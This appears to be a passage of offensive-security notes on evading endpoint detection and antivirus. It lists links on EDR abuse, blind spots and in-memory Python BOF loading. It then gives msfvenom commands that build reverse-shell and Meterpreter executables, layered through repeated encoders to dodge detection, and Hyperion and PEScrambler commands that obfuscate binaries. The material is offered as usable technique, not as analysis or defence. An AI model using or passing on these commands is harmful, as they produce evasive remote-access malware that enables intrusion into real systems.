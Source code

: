 

## Attacking EDRs

- [https://mansk1es.gitbook.io/edr-binary-abuse/](https://mansk1es.gitbook.io/edr-binary-abuse/)
- [https://xss.is/threads/67718/](https://xss.is/threads/67718/)




## EDR Blindspots

- [https://www.naksyn.com/edr%20evasion/2022/09/01/operating-into-EDRs-blindspot.html](https://www.naksyn.com/edr%20evasion/2022/09/01/operating-into-EDRs-blindspot.html)
- [https://github.com/naksyn/Pyramid](https://github.com/naksyn/Pyramid)
- [https://gist.github.com/snovvcrash/39263ccae8e07210c3f87c9472b4c908](https://gist.github.com/snovvcrash/39263ccae8e07210c3f87c9472b4c908)
- [https://github.com/naksyn/PythonMemoryModule](https://github.com/naksyn/PythonMemoryModule)



### BOFs with Python

- [https://github.com/rkbennett/pybof](https://github.com/rkbennett/pybof)
- [https://tishina.in/execution/python-inmemory-bof](https://tishina.in/execution/python-inmemory-bof)
- [https://github.com/zimnyaa/inmembof.py](https://github.com/zimnyaa/inmembof.py)




## Tools



### msfvenom

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```



### Veil-Evasion

Hyperion + Pescramble

```
$ wine hyperion.exe input.exe output.exe
$ wine PEScrambler.exe -i input.exe -o output.exe
```


